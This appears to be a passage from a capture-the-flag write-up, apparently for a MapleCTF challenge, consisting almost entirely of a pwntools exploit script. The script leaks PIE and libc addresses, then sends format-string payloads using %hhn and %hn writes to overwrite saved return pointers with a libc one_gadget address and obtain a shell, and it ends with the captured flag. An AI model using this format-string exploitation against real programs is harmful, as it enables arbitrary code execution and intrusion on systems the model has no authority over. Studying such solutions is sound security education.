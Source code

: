 ```js 
    leaked_libc = int(out[2], 16)
    log.info(f'Leaked pie : {hex(leaked_pie)}')
    log.info(f'Leaked libc: {hex(leaked_libc)}')
    log.info(f'Stack addr : {hex(stack_addr)}')

    if stack_addr != 0x40:
        # Re-init connection
        r.close()
        continue

    elf.address = leaked_pie - elf.symbols['set'] - 18
    libc.address = leaked_libc - libc.symbols['__libc_start_main'] - 243
    log.info(f'Pie base   : {hex(elf.address)}')
    log.info(f'Libc base  : {hex(libc.address)}')
    win_addr = libc.address + 0xe3b01 # rdx and r15 null via one_gadget
    log.info(f'Libc win  : {hex(win_addr)}')

    # Second loop payload notes:
    # From the first loop, we already have gadget to overwrite the saved return pointer of go(), stored inside
    # the saved rbp of the ready() function.
    # Now, the detail of the payload:
    # - Overwrite the LSB of saved rbp of set() the LSB of the stack address of the saved return pointer of main()
    # - Overwrite the LSB of saved return pointer of go() to set()+13 with our crafter gadget from the first loop
    # - Overwrite first and second LSB of saved return pointer of main() to our win address (shell via one_gadget)
    total = 4
    s1 = stack_addr+0x28 - total
    total += s1
    s2 = 0xed - total
    total += s2
    s3 = (win_addr % 0x10000)-total
    payload = f'%c%c%c%c%{s1}x%hhn%{s2}x%10$hhn%{s3}x%8$hn'.encode()
    print(f'Second payload: {payload}')
    r.sendline(payload)

    # Third loop notes:
    # - Overwrite the LSB of saved rbp of set() to point to the saved return pointer of main() + 2 (Because we have overwritten two bytes)
    # - Overwrite the third LSB of saved return pointer of main() with the third LSB of our shell address
    # Now the main() will ret to shell
    total = 4
    s1 = stack_addr+0x28+2-total
    total += s1
    s2 = ((win_addr// 0x10000) % 0x100)-total
    print(hex(((win_addr// 0x10000) % 0x100)))
    payload = f'%c%c%c%c%{s1}x%hhn%{s2}x%8$hhn'.encode()
    print(f'Third payload: {payload}')
    r.sendline(payload)
    r.interactive()
```
![image](https://user-images.githubusercontent.com/93731698/188695415-7505846b-09d7-43dd-a4f2-880ce036b19a.png)
> `Flag: maple{F0wm47_57w1ng_3xpl01t_UwU}`
